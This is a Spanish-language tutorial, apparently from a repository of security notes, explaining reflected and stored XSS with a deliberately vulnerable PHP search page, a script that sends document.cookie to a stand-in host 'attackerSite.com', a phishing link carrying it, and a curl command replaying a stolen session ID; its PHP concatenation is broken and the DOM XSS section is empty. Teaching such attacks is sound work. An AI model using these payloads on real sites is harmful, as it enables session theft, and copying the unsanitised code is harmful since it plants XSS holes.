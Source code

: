 [Volver al inicio](../Readme.md)
# XSS (Cross-Site Scripting)
## Introducción.
El ataque XSS consiste en inyectar codigo Javascript malicioso en un sitio web vulnerable, de forma que al ser cargado por un usuario víctima, se ejecute en su navegador dicho código malicioso, con el objetivo de extraer información de la víctima, como por ejemplo, la cookie de sessión. Existen básicamente tres tipos de ataques (sin tener en cuenta los ataques XSS ciegos):
## Tipos de XSS
### XSS Reflejados
Este tipo de ataque se aprovecha de una deficiente o nula sanitización de los parametros de entrada, procedentes por ejemplo, de un formulario HTML del sitio web.

![XSS reflejado](_images/xss_reflejado.jpg)

Imaginemos un sitio web que tiene el siguiente código HTML para buscar un producto:
```html
<!DOCTYPE html>
<html>
<head>
    <title>Web XSS</title>
</head>
<body>
    <h2>Busca un producto</h2>
    <form action="xss1.php" method="GET">
        <label for="id_producto">Producto (ID):</label>
        <input type="text" id="id_producto" name="id_producto" required>
        <button type="submit">Enviar</button>
    </form>
</body>
</html>
 ```

 Y el código PHP del lado del servidor que recibe los datos del usuario:
 ```php
 <!DOCTYPE html>
<html>
<head>
    <title>Lector XSS</title>
</head>
<body>

<?php
// Crear conexión
$conn = new mysqli($servername, $username, $password, $database);

// Verificar la conexión
if ($conn->connect_error) {
    die("Error de conexión: " . $conn->connect_error);
}

// Verificar si se proporcionó el parámetro "id_producto" en la URL
if(isset($_GET['id_producto'])) {
    
    /* Aquí realizaría la búsqueda en la base de datos*/

    if ($result->num_rows > 0) {
        // El producto existe en la base de datos
        echo "Realiza alguna acción";
    } else {
        // El producto NO existe en la base de datos
        echo "El producto con el ID " + $_GET['id_producto'] + " no existe en la base de datos.";
    }
} else {
    // Si el parámetro "id_producto" no se proporcionó en la URL
    echo "Debe proporcionar un identificador de producto.";
}

// Cerrar conexión
$conn->close();
?>

</body>
</html>
```

 En el código PHP (que no está sanitizado), observamos que, en caso de que no exista el producto, muestra un mensaje al cliente en el que añade el id del producto buscado. En este caso, si un atacante integra un script malicioso en el campo de búsqueda del producto, dicho script se verá **REFLEJADO** en la respuesta HTML que se envía al cliente y será ejecutado en su navegador.

 Imagina ahora que el script que envía el atacante es el siguiente:

 ```html
 <script>
    var cookies = document.cookie;

    var xhr = new XMLHttpRequest();
    xhr.open('POST', 'https://attackerSite.com/store_cookies.php', true);
    xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    xhr.send('cookies=' + encodeURIComponent(cookies));
</script>
 ```
Este script, envia por POST la cookie de sesión a un sitio web controlado por el atacante, por lo que si un atacante consigue que una víctima ejecute dicho script, estará recibiendo la sesión de la víctima en su sitio malicioso y podrá impersonarla.

Un enlace que podría recibir la víctima a través de un phishing se parecería a la siguiente:

```
http://misitioweb.com/xss1.php?id_producto=<script>código malicioso</script>
```

Posteriormente, el atacante, previo estudio del funcionamiento del sitio web que pretende atacar y conociendo las peticiones que utiliza el sitio web, puede intentar acciones maliciosas utilizando las cookies robadas:

```
curl -X GET https://misitioweb.com/protected-page.php -H "Cookie: PHPSESSID=SESSION_ID_ROBADA"

```


!!! ACLARACIÓN:

En este ejemplo, la página web vulnerable utiliza el paso de parámetros mediante GET, lo que facilita el ataque, en caso de utilizar **POST**, no se puede engañar a la víctima mediante un enlace, ya que el método POST no permite enviar los parámetros en forma de enlace.

En este caso la opción puede ser engañar a la víctima para que se conecte a una página web controlada por el atacante y forzarla a ejecutar el script que permita obtener la cookie de sesión.
Una idea puede ser, enviar el payload al servidor que tiene la vulnerabilidad XSS reflejada, la respuesta será la página devuelta por el servidor a la que se le ha añadido el script malicioso. Esta página infectada se aloja en un servidor del atacante y se fuerza por phishing a que la ejecute la víctima. Si se consigue, la víctima estará enviando la cookie al atacante.

Esta forma de atacar, en realidad, sería una suplantación de la página web original más que un XSS reflejado.

### XSS almacenados
En este tipo de vulnerabilidad, el atacante aplica el payload sobre un elemento del sitio web que se almacenará en la base de datos, por ejemplo, podemos pensar en una página web que contiene un blog, en la que por cada noticia, se permiten comentarios de los usuarios y estos se almacenan en la base de datos. Así pues, si un atacante inyecta un payload en uno de los comentarios, cada vez que un usuario acceda al blog y cargue la página que contiene el comentario infectado, estará ejecutando indirectamente el payload subido por el atacante. 

![Proceso ataque XSS almacenado](_images/xss_almacenado.jpg)

### DOM XSS
## Bibliografía
- Cross-site scripting. PortSwigger. https://portswigger.net/web-security/cross-site-scripting#what-is-cross-site-scripting-xss
- DOM Based XSS. OWASP. https://owasp.org/www-community/attacks/DOM_Based_XSS
- DOM-based XSS. PortSwigger. https://portswigger.net/web-security/cross-site-scripting/dom-based
- el-brujo. (29/09/2021). XSS o Cross‑Site Scripting: tipos de ataque y prevención. elhacker.net. https://blog.elhacker.net/2021/09/xss-o-crosssite-scripting-tipos-de-ataque-y-prevencion.html
- García de Zúñiga, F. (19/10/2022). Ataque XSS: qué es y cómo evitarlo. ARSYS. https://www.arsys.es/blog/ataques-xss-que-son-y-como-evitarlos#Como_evitar_un_ataque_XSS
- García de Zúñiga, F. (24/08/2022). CSP: Content Security Policy. ARSYS. https://www.arsys.es/blog/csp-content-security-policy
- axarnet. (s.f.). Qué es el Cross Site Scripting (XSS) y cómo evitarlo. https://axarnet.es/blog/cross-site-scripting-xss#
- Lázaro, D. (2018). Ataques XSS: Cross-Site Scripting en PHP. https://diego.com.es/ataques-xss-cross-site-scripting-en-php